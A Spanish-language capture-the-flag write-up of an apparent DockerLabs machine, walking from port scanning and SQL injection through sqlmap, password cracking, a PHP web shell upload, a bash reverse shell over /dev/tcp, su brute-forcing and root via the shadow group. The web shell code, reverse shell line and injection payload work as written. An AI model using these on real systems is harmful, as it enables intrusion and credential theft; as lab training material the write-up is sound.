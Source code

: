 nmap: 80

![image](https://github.com/user-attachments/assets/2ff1e276-c37b-4d4a-8b9f-14d603d06229)


---
entramos a la pagina principal y la verdad no hay mucho, tampoco en el código fuente

![image](https://github.com/user-attachments/assets/d055eff7-403d-4808-8008-e98742cc9f3c)

hacemos un gobuster:
> gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -x php,html,py,txt

nos da un login.php
![image](https://github.com/user-attachments/assets/44e2f0c3-bf79-4eac-9182-06d47ccae654)

![image](https://github.com/user-attachments/assets/dba385cc-25fd-47ed-8789-fb7a1b457b55)


dentro en el buscador colocamos 

    'or 1=1-- -' 

Esto es una inyección SQL que explota vulnerabilidades en consultas a bases de datos como por ejemplo ese login 

Puntos importantes de esa explotación:
> Funciona cuando el sistema no valida correctamente las entradas de usuario
> la base de datos soporta comentarios (--) para ignorar el resto de la consulta

y no funciona cuando:
> hay validación o escape de caracteres en las entradas 
> y el motor de la base de datos no interpreta (--) como comentario.

como en ese login no permite esa inyección probamos creando un usuario y contraseña e ingresamos, lo que logramos es entrar a la pagina de esta forma:
![image](https://github.com/user-attachments/assets/7ef3f704-d534-4c2f-9331-bbeffbfb11e3)

voy a probar con burpsuite desde donde dice "comprar ahora", capturamos y hacemos una consulta sqlmap con el request que capturamos
![image](https://github.com/user-attachments/assets/1a34f523-8919-41b2-bd7e-7af4cda97399)

ahí se guardo la petición y así que hacemos un sqlmap

    sqlmap -r  request --batch --dump


y nos dio:
![image](https://github.com/user-attachments/assets/13406494-f292-40af-aac2-0c5114932387)

creamos un hash con nano, pegamos la contraseña que nos dio el sqlmap
crackeamos la contraseña con john:

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
 
 me da la contraseña del admin
![image](https://github.com/user-attachments/assets/61bfdc72-9ddf-4c67-b2ce-ef75e2229252)

cerramos sesión e ingresamos con la sesión de admin
al final podemos ver un panel de administración 
vamos a configuraciones > subir archivos.

creamos un phtml ya que con php no sirve y lo buscamos en: https://book.hacktricks.xyz/pentesting-web/file-upload
![image](https://github.com/user-attachments/assets/dbdd29ef-b39f-4204-8cab-cb6743b931fb)


creamos un php dentro permite la ejecución remota de comandos sin validación

     - <?php
       system($_GET['cmd']);
       ?>

lo subimos:
![image](https://github.com/user-attachments/assets/114eb20f-49a2-41da-972e-0dcc6c9736cb)


después de subir el archivo vamos a uploads  y vemos que esta ahí, comprobamos
![image](https://github.com/user-attachments/assets/4838956b-d829-4f38-9ccf-d648e30600fe)


ahora colocamos una bash

    http://172.17.0.2/uploads/shell.phtml?cmd=bash -c 'bash -i >%26   /dev/tcp/172.17.0.1/443 0>%261'
    
mientras la terminal nuestra esta en escucha y tenemos conexión 
![image](https://github.com/user-attachments/assets/c912d156-c0ec-4817-bc93-2bcdda680262)

entramos y ahora escalamos.

encontré que para escalar se utiliza "su-bruteforce" , buscamos alguna forma y encontré:
https://github.com/d4t4s3c/suForce
utilizamos este diccionario: https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/techyou.txt
![image](https://github.com/user-attachments/assets/1ae3b8e7-bd61-4ef4-8e9a-b3002a5a56ed)


nos pasamos el suforce y techyou.txt por wget abriendo un servidor en nuestro terminal con python3.
pasamos dos diccionarios por si acaso, ahora iniciamos la fuerza bruta
después de un rato nos da la contraseña de luis
![image](https://github.com/user-attachments/assets/1d4d1b58-b9ac-4f6c-bbab-87935da0557e)

nos pasamos al otro usuario

muestra que para escalar a root esta el grupo "shadow" que se vio con el id
![[shadows.png]]
buscando encontré una posible contraseña:
![[paso1.png]]
dejamos un txt así: cosa que podamos sacar  la contraseña 
![[paso2.png]]
de la mejor forma es hacer el ataque en nuestra  terminal con el comando:

        john --wordlist=/usr/share/wordlists/rockyou.txt shadows.txt

y nos da la contraseña: rainbow2

su root / rainbow2
![[dockerlabs/medio/apolos/root.png]]
y somos root!
